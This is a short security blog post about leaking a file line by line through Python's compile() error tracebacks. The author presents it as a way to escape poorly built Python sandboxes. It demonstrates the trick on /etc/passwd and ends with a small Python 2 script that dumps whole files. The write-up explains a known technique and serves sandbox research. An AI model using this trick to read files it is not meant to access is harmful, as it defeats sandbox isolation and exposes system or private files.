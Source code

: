 ```yaml
---
layout: post
title: Python Compile Leak Bug 
published: true
categories: [Research]
excerpt: I was trying to break out of a python sandbox back in October, when I discovered a by-design bug.
---
```


I was trying to break out of a python sandbox back in October, when I discovered a by-design bug.

---

# Leaking files with `compile()`in Python

### Background

I was trying to break out of a python sandbox back in October, when I asked [this question](https://security.stackexchange.com/q/219320/169503) on Stackexchange (but no one answered...)

By using the `compile` function and throwing an error by `return`ing it early, we can leak the first line of any file that we have access permissions to. 

Now, you may ask:     
>But Isopach, what's the use of leaking a file that you already have permissions to read? Why not just `cat` it? 

And to be honest, on hindsight this isn't even a noteworthy bug to write about. 

BUT! You can use this for escaping improperly implemented sandboxes, i.e. sandboxes that did not remove the `compile` function. So even if you cannot `cat` the file directly, you will be able to leak them.

So, onto the bug!

### Bug

By running `compile('yield', '/etc/passwd', 'exec')`, we are able to leak the first line of any file.

While it is useful in many cases, often we want to see the whole file, right?

To do this, since python interprets files line-by-line, we can delay the termination error simply by adding a new line `\n` to leak a line at a time.

For example, let's make `/tmp/passwd`:
```
$ cat /tmp/passwwd
line 1
line 2 
line 3
line 4
```

We will be able to read the first line with 0 `\n` like as above, but when we run `compile('\nyield', '/tmp/passwd', 'exec')`, it returns `line 2`!

### Exploit 

We'll be able to get every line by catching the `Traceback` and storing it in a variable, then printing it out for every line like this:

```
import traceback
import sys


for i in range(0,100):
    line_number = '\n' * i
    payload = line_number + 'yield'
    try:
        compile(payload, sys.argv[1], 'exec')
    except SyntaxError, err:
        try:
            exc_info = sys.exc_info()
            
        finally:
            traceback.print_exception(*exc_info)
            del exc_info
```

Change the upper limit in `range` depending on file length.

Thanks for reading!
